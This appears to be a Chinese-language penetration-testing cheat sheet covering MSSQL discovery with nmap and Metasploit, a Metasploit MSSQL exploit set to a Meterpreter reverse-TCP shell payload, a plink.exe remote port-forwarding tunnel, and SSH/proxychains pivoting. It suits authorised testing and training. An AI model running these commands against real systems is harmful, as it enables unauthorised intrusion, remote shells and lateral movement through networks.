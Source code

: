 ### MSSQL

枚举/发现

Nmap

```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

#### 爆破 MSSQL登陆

```
msf > use auxiliary/admin/mssql/mssql_enum
```

#### Metasploit MSSQL Shell

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

## 网络

### Plink.exe 隧道

PuTTY Link  隧道

转发运程端口到本地地址：

```
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

### 跳板（Pivoting）

#### SSH 跳板（ssh Pivoting）

```
ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
```

需在` /etc/proxychains.conf` 添加sock4  `127.0.0.1 1010`

利用SSH跳板跨越网络

```
ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1
```

需在` /etc/proxychains.conf` 添加sock4  `127.0.0.1 1010`
